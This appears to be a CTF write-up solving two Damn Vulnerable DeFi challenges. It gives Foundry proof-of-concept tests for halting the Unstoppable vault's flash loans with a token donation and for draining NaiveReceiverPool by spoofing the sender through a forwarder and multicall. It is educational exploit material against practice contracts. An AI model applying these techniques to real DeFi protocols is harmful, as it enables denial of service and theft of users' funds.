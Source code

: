 # High 

### `Unstoppable::flashloan`, Flash loans can be haulted if balance of `Unstoppable::totalSupply` & `Unstoppable::totalAssets` are not 1:1. 

``` solidity 
        uint256 balanceBefore = totalAssets();
        // shares must be 1:1 with balance
        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

### PoC: 
Any account can hault flash loans if they send `Unstoppable` an unexpected amount of assets. 

``` solidity 

    function test_unstoppable() public checkSolvedByPlayer {

        uint256 _totalsupply = vault.totalSupply();
        uint256 shares = vault.convertToShares(_totalsupply);

        token.transfer(address(vault), 1);
        console.log("balance of vault: %s", vault.totalAssets());
        console.log("total number of shares: %s", shares);

        vm.expectRevert();
        vault.flashLoan(recipient, address(token), 2e18, "");
    }

```

``` diff

    DamnValuableToken public token;
    UnstoppableVault public vault;
    UnstoppableMonitor public monitorContract;
+    FlashLoanRecipient public recipient;

    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
+      recipient = new FlashLoanRecipient(token,vault);
        token = new DamnValuableToken();
```



``` solidity 
contract FlashLoanRecipient is IERC3156FlashBorrower {
    DamnValuableToken public token;
    UnstoppableVault public vault;

    constructor(DamnValuableToken _token, UnstoppableVault _vault) {
        token = _token;
        vault = _vault;
    }

    function onFlashLoan(address initiator, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        console.log("FlashLoan Recipient balance during execution: %s", DamnValuableToken(token).balanceOf(address(this)));

        DamnValuableToken(token).approve(address(vault), amount + fee);

        return keccak256("IERC3156FlashBorrower.onFlashLoan");
    }
}
```

---

### `NaiveReceiverPool::flashLoan`, Funds can be drained 

### PoC:
How to spot the bug:

1. Review NaiveReiverPool
    1. identify main point of interest, which is `NaiveReceiverPool::flashLoan`
    2. `NaiveReceiverPool::flashLoan` is using `FlashLoanReceiver::onFlashLoan` function to ensure that the borrower contract has successfully implemented and completed the `onFlashLoan` callback according to the ERC-3156 standard.
    3.  `_msgSender` function determines the true originator of a transaction, particularly when it’s forwarded by a relayer contract, like `BasicForwarder`. It checks if the `msg.sender` is the `trustedForwarder`. If so, it extracts the actual sender from the call data. If `msg.sender` is not the trusted forwarder, it simply returns `msg.sender`.
2. Review `Multicall` and `BasicForwarder`
    1. `Multicall`: has a single function that accepts an array of function call data to delegate call multiple functions in a single tx
    2. `BasicForwarder`: provides a way for users to "sign" transaction requests off-chain, including all the transaction details such as the target, value, gas, nonce, and deadline. This signed request is then handed to a relayer off-chain. The relayer, or another entity, can submit it on-chain by invoking the `execute` function with the signed request and associated data. The `execute` function then verifies the request’s validity by checking the signature, nonce, and other constraints before forwarding the transaction to the specified target contract.
3. Things we know so far:
    1. We know `Multicall` is used to initiate multiple delegate calls 
    2. `NaiveReceiverPool::flashLoan` is using `FlashLoanReceiver::onFlashLoan`
    3. We know the NaiveReceivePool’s balance has 10eth
    4. There is a fee of 1eth that the NaiveReceivePool receives per flashloan which increases `deposits[feeReceiver] **+=** *FIXED_FEE*;`
4. Attack process:
    1. Build the request, and fill out the request information 
    2. Invoke `BasicForwarder::execute` 
        1. Trusted Forwarder(BasicForwarder) is calling MultiCall with calldata to  `NaiveReceiverPool::flashloan` &  `NaiveReceiverPool::withdraw` 
            1. when `NaiveReceiverPool::flashloan` is invoked it will trigger `FlashLoanReceiver::onFlashLoan` → this will be called 10x
        2. 11th (last call) will trigger `BasicForwarder::withdraw`

``` solidity 

    function test_naiveReceiver() public checkSolvedByPlayer {
        // build the delegate call data that will be sent over to MultiCall
        bytes[] memory delegateData = new bytes[](11);
        for (uint256 i; i < 10; i++) {
            // building the first call, it will cal the flashloan 10x
            delegateData[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 1e18, ""));
        }
        // building second call
        uint256 amountToWithdraw = weth.balanceOf(address(pool)) + weth.balanceOf(address(receiver));
        delegateData[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (amountToWithdraw, payable(recovery))), bytes32(uint256(uint160(deployer))));
        
        bytes memory data;

        data = abi.encodeCall(pool.multicall, delegateData);

        // build the request 
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player, // from 
            address(pool), // target
            0, // value
            1000000, // gas
            forwarder.nonces(player), // players nonce
            data, // bytes: contains both calls, flash loan & withdraw. 
            1 days // deadline
        );
        
        bytes32 hash = keccak256(abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
        ));

        // signing encoded hash with players private key and then separating the sig in three parts
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, hash);
        
        bytes memory sig = abi.encodePacked(r, s, v);

        forwarder.execute(request, sig);
    }

```